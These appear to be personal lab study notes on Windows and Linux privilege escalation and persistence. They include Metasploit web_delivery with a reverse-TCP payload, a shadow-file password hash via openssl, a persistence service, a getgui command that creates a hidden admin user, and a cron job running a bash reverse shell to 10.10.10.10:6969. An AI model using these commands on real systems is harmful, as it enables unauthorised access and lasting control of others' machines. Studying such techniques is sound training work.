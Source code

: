 > Identifying Windows Privilege Esclation Vulnerabilites
> 	itm4n/PrivescCheck
> exploit/multi/script/web_delivery
> 	Starts webserver
> 	Copy that code,
> 	set target to PSH binary
> 	set payload to windows/shell/reverse_tcp
> 	migrate to x64

---

## Linux PE

> whoami
> groups
> cat /etc/group
> groups userName
> find / -not -type l -perm -o+w
> 	modify the shadhow file
> 	openssl passwd -1 -salt abc password

---
## Persistence Via Services

> Used Metasploit for Exploiting and also for Persistence
> 	exploit/windows/local/persistence_service
> 	(Services run in the background)
> 		this creates also a RC Files , for clean up , which will clean all the artifacts left over.
>  
> Via RDP and Creating USER
> 	run getgui -e -u alexis -p hacker_123321
> 		Check, if rdp is enabled, if not it will enable it. then create the user and then remove from the windows login screen, and add the user to local group administrators
> 		Also this will give the clean up script.
> 		now use xfreerdp and connect to that system.
> 		
---

## Linux Persistence - Via SSH keys

> Just the concept of SSH keys
> 	but in the lab, it was tottally oppostie, bcoz, i stoled the private key, and i didn't had permission of editing authorized_keys

> Via cron jobs
> 	cat /cron*
> 	echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/6969 0>&1' " 
> 	crontab -i cron, cron is the txt file ,with the echo commands, 
> 	crontab -l
> 	

---